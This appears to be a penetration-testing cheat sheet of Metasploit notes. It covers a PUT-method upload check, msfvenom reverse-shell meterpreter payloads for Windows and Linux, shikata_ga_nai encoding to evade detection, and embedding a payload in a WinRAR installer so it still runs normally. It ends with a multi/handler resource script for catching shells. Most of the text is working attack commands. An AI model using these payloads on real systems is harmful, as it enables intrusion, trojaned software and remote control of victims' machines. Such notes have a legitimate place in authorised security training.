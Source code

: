 
## PUT Method check
```bash
use auxiliary/scanner/http/http_put
# set PATH to a dir that allows PUT
# you can set FILEDATA to be content e.g PHPshell oneliner
```

## Client Side Attacks
a client side attack vector involves coercing a client to execute a malicious payload on their system that consequently connects back to the attacker when executed
```bash
# Generating msfvenom payloads
msfvenom --list payloads
msfvenom --list formats
msfvenom --list encoders

msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=$IP LPORT=$PORT -f exe > /tmp/32bitload.exe

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=$IP LPORT=$PORT -f elf -o /tmp/reverse32

MULTI HANDLER
use multi/handler
set payload to $APPRORIATE_SHELLCODE
set LHOST


ENCODING PAYLOADS
nb : shikata_ga_nai works on both linux & windows

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$IP LPORT=$PORT -e x86/shikata_ga_nai -f exe 

# increasing encoder iteration, say 10
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$IP LPORT=$PORT -i 10 -e x86/shikata_ga_nai -f exe 

INJECTING PAYLOADS
- download a pe32 file that allows injection, like WINRAR setup file, the -k option preserves the behavior of the exe so it does its function even after sending shell.

msfvenom -p windows/meterpreter/reverse_tcp LHOS LPORT -e x86/shikata_ga_nai -f exe -x ./winrar32.exe -o embed.exe

AUTO PROCESS MIGRATE (post exp module)
run post/windows/manage/migrate
```

## Automating with Resource scripts
resource scripts are similar to batch scripts, they allow you automate repetitive tasks and commands, you can then load them(EXTENTION IS `.rc`)...
```bash
# default resource scripts that come pre packaged
ls -la /usr/share/metasploit-framework/scripts/resource
```
- say we want to setup a resource script that automatically starts a handler for receiving shells (it must be in sequential order as you would when typing manually)
```ruby
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST $IP
set LPORT $PORT
run
```
